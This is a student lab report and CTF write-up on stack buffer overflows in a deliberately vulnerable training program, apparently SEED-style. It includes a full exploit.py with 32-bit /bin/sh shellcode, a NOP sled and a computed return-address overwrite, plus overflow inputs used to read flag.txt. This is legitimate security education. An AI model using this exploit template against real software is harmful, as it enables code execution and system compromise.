 # Task 1

![alt text](img/Screenshot%202022-10-13%20at%2011.42.04.JPG)
32 bit shellcode

![alt text](img/Screenshot%202022-10-13%20at%2011.36.54.JPG)
64 bit shellcode

Both versions open a shell where we can use some commands.

# Task 2

![alt text](img/Screenshot%202022-10-13%20at%2012.15.48.JPG)

After creating a `badfile` with a length of 517 (we just copied the contents of `exploit.py` for ease of use), the program creates a buffer overflow.

![alt text](img/Screenshot%202022-10-13%20at%2015.45.35.JPG)

The values of the ebp and buffer address.

# Task 3

As we used the stack-L1, and this program was compiled in 32 bits, we used the value 32 bit shellcode in call_shellcode.c.

To fill the buffer with the maximum possible number of `NOP` values, we placed the start value at `517 - len(shellcode)`, as the buffer can take 517 bytes and we still leave space for the shellcode.

![alt text](img/Screenshot%202022-10-13%20at%2016.05.28.JPG)

The return variable used was the `ebp` in adition to the number `0x103`, as it should have a value between the address and the maximum possible number, 517.
The offset used was the `ebp` - buffer address + 4 bytes, as it'sa 32 bit architecture.

![alt text](img/Screenshot%202022-10-13%20at%2016.20.09.JPG)

Exploit ran successfully.

```
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80" 
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcb18 + 0x103           # Change this number 
offset = 0xffffcb18 - 0xffffcaac + 4              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

exploit.py code

# CTF

## Desafio 1

![alt text](img/Screenshot%202022-10-18%20at%2009.05.39.png)

we followed the instructions given and then, after analysing the code , we gathered that the program would read 28 characters so we added 20 "a" before "flag.txt" to overflow.


## Desafio 2

In this challenge there's a a val variable with 4 bytes and an additional conditional is checked before opening the file.
We overflow the variables with 0xfefc2223 in reverse (as the architecture is <b>little endian</b>, which we checked with ``checksec``) and the contents of ``flag.txt``.

![alt text](img/Screenshot%202022-10-18%20at%2017.34.57.JPG)

We gained access.

![alt text](img/Screenshot%202022-10-18%20at%2017.35.24.JPG)

we converted the file's name from hexadecimal to ASCII and ran the script.
